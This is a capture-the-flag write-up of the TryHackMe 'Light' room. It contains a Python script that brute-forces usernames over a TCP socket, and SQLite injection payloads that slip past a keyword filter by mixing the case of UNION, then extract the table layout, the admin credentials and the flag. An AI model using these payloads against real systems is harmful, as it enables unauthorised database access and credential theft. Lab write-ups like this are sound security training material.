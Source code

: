 # Light

{% embed url="https://tryhackme.com/room/lightroom" %}

I started on this challenge with minimal knowledge of SQL/SQLite commands and workings (just the basics as learnt from the TryHackMe course room detailed under the Web Hacking -> SQL Injection section in this gitbook: [https://jarrettgxz-sec.gitbook.io/penetration-testing-ethical-hacking/web-hacking/sql-injection](https://jarrettgxz-sec.gitbook.io/penetration-testing-ethical-hacking/web-hacking/sql-injection)). I have gained ideas and insights from a few online resources and also from _ChatGPT_.

Note: _ChatGPT_ was used to point myself towards the right direction on SQLite specific concepts such as commands to retrieve the table or columns names from the current database instance, but not on specific SQL injection concepts. The SQL injection commands were generated by myself based on multple trial-and-errors. For example, commands to query from `sqlite_master` was generated by ChatGPT, however, the insertion of specific characters (eg. quotation marks, equal signs, etc.) within the final command sent to the vulnerable database application was added myself based on my own knowledge from past experiences.

### First attempt: brute-force attack on username

The challenge presents a simple interface over the TCP connection at port 1337, prompting for the username, to which it will respond with the password. The goal is to find the name and password of the admin account, followed by a flag.

My first instinct was to perform a brute-force attack on the username. According to the results, I can identify the admin username, and retrieve the password from the application.

_**Bash script to brute force the password:**_

The following displays an attempt of using a bash script (not completed) to perform the brute-force attack. However, the script is not working as it simply pauses after the first input.

```bash
#!/usr/bin/bash

filename="/usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt"

while IFS="" read -r line; do
	# eg. echo smokey | nc <target> 1337
	res=$(echo "$line" | nc -w 1 <target> 1337)

	if [[ "$res" == *"not found"* ]]; then
		# if the substring "not found" is present, means user not found
		...
	else
		# print success message and exit
		...
	fi;

done < "$filename"


```

_**Python script:**_

The following shows a Python script that works:

```python
#!/usr/bin/python3

import socket

HOST=<target>
PORT=1337
#filename='/usr/share/wordlists/SecLists/Usernames/top-usernames-shortlist.txt'
#filename='test.txt'
#filename='/usr/share/wordlists/SecLists/Usernames/Names/names.txt'
#filename='/usr/share/wordlists/SecLists/Usernames/Names/femalenames-usa-top1000.txt'
#filename='Security-Research/tools/aws-pentest-tools/iam_user_enum/default-word-list.txt'
filename='wordlist/usernames.txt'

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect((HOST,PORT))
    s.recv(1024) # flush 1
    s.recv(1024) # flush 2


    f = open(filename, 'r')

    for username in f:
        if len(username) <= 10:
            continue

        username = username.lower()

        print(f'[!] Trying {username.replace('\n', '')}', end=' ')
        
        s.send(bytes(username, 'utf-8'))
        data = s.recv(1024)
        str_data = str(data, 'utf-8')

        if 'not found' in str_data:
            print('failed')
            s.recv(50)

        else:
            print(str_data)
            break

    f.close()

```

_**Word-lists to try out**_:

1. /`usr/share/wordlists/seclists/Usernames/Names/names.txt`
2. `/usr/share/wordlists/seclists/Usernames/Names/malenames-usa-top1000.txt`&#x20;
3. `/usr/share/wordlists/seclists/Usernames/Names/femalenames-usa-top1000.txt`

I found the username: _**alice**_. However this wasn't the admin username. Probably a rookie mistake on my part for not realizing sooner that the answer field for the admin username in the TryHackMe website is 14 characters long. An SQL injection is likely to be more feasible.&#x20;

### SQL Injection

As mentioned before, I noticed that the input form length is very long, and realized that it's highly unlikely that I would be able to find the username with a simple brute-force.&#x20;

As suggested from the challenge name, this database is likely to be a SQLite database application.

**Possible SQL statements on the server side:**

```sql
SELECT * FROM users WHERE name='smokey';
```

**Attempts with common SQL injection inputs:**

1. _**Force the statement to resolve to true**_

_Potentially tricking the database to return all the users_

```sql
' OR 1=1 --
```

_Hope to resolve to the following in the server side_:

```sql
SELECT * FROM users WHERE name='' OR 1=1--';
```

**Reponse**: `For strange reasons I can't explain, any input containing /*, -- or, %0b is not allowed :)`

This tells us that comment characters are banned.

**Another attempt:**

```sql
' OR ''='
```

_Hope to resolve to the following in the server side_:

```sql
SELECT * FROM users WHERE name='' OR ''=''
```

This seems to return a password value (associated with the _**alice**_ username).&#x20;



2. _**UNION and SELECT statement**_

The UNION and SELECT keywords (along with their lower capital variations) are all banned too

```sql
UNION
SELECT
union
select
```

**Reponse**: `Ahh there is a word in there I don't like :(`

3. _**Obfuscation of keywords**_

After pondering for awhile on the error message returned from the statement in point 2 above, I got the idea of using non-standard SQL keyword commands, apart from the conventional fully capitalized, or fully non-capitalized versions (`UNION`, `union`).

```sql
--**
' Union Select name from sqlite_master where type = 'table' '=
--OUTPUT: Error: near "'='": syntax error

--**
' Union Select name from sqlite_master where type = 'table' OR '=
--OUTPUT: Password: admintable


--**
' Union Select * from admintable '=
--OUTPUT: Error: SELECTs to the left and right of UNION do not have the same number of result columns

--** to resolve the first half of the UNION to false (since anything with AND '1=0' will always be false)
' AND '1=0' Union Select * from admintable '=
--OUTPUT: Error: SELECTs to the left and right of UNION do not have the same number of result columns


--** TRYING TO GET COLUMN NAMES OF THE TABLE 'admintable'
-- ** NOTICE the different cases of the letters, different from: UNION, union
' Union Select sql FROM sqlite_master WHERE type = 'table' AND name = 'users' OR '=
--OUTPUT: 
/*
Password: CREATE TABLE admintable (
                   id INTEGER PRIMARY KEY,
                   username TEXT,
                   password INTEGER)
*/

--**
' Union Select username from admintable '
--OUTPUT: Password: TryHackMeAdmin

--** NOTE: Union keyword has funny capitalization, but works nonetheless
' UnIoN Select password from admintable '
--OUTPUT: Password: THM{SQLit3_InJ3cTion_is_SimplE_nO?}

--**
' UNion Select password from admintable where username='TryHackMeAdmin' or '=
--OUTPUT: Password: mamZtAuMlrsEy5bp6q17

```

From the results, I have learnt that SQLite accepts variations of SQL keywords, such as but not limited to: `Union`, `uNion`, `unIon`, `uniOn`, `UNion`, etc. are allowed, and are treated as valid commands.



{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md" %}

{% embed url="https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/#FindColumnsHavingGroupbyErrorBased" %}

{% embed url="https://www.tutlane.com/tutorial/sqlite/sqlite-injection-attacks" %}
